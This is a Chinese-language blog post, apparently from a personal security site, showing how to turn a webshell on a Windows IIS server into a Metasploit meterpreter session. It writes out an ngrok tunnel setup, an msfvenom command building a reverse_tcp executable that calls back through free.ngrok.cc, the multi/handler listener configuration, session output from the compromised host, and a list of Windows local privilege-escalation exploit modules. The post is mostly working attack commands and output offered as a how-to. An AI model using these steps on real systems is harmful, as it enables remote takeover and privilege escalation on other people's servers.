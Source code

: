 ```yaml
---
title: "MSF Webshell 上线"
date: 2018-02-24T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['metasploit']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



ngrok 内网穿透, 搭配 metasploit 实现 webshell 上线.

<!--more-->

ngrok.cc 注册账号 开通隧道 类型 tcp

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/23/1519383205.jpg)

下载客户端

我的是 linux arm

运行

`./sunny clientid xxxx`

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/23/1519383245.jpg)

下面用 msfvenom 生成后门程序

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=free.ngrok.cc LPORT=端口 -f exe > /tmp/test.exe`

端口填之前开通隧道的远程端口

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=free.ngrok.cc LPORT=端口 -f exe > test.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

监听

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 端口
```

端口填之前开通隧道的本地端口

0.0.0.0 是为了监听所有地址

```
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:4444
```

将生成的程序上传至服务器执行

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/23/1519383763.jpg)

成功反弹会话

```
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Sending stage (179779 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:55460) at 2018-02-23 19:01:59 +0800

meterpreter> getuid
Server username IIS APPPOOL\baidu
meterpreter> sysinfo
Computer: WIN-XXOO
OS: Windows 2012 (Build 9200)
Architecture: x64
System Language: zh_CN
Domain: WORKGROUP
Logged on Users: 5
Meterpreter: x86/windows
meterpreter>
```

本地提权 exp 在 exploit/windows/local/ 下

```
msf exploit(multi/handler) > use exploit/windows/local/ms 
use exploit/windows/local/ms10_015_kitrap0d
use exploit/windows/local/ms10_092_schelevator
use exploit/windows/local/ms11_080_afdjoinleaf
use exploit/windows/local/ms13_005_hwnd_broadcast
use exploit/windows/local/ms13_053_schlamperei
use exploit/windows/local/ms13_081_track_popup_menu
use exploit/windows/local/ms13_097_ie_registry_symlink
use exploit/windows/local/ms14_009_ie_dfsvc
use exploit/windows/local/ms14_058_track_popup_menu
use exploit/windows/local/ms14_070_tcpip_ioctl
use exploit/windows/local/ms15_004_tswbproxy
use exploit/windows/local/ms15_051_client_copy_image
use exploit/windows/local/ms15_078_atmfd_bof     
use exploit/windows/local/ms16_016_webdav
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc 
use exploit/windows/local/ms_ndproxy
```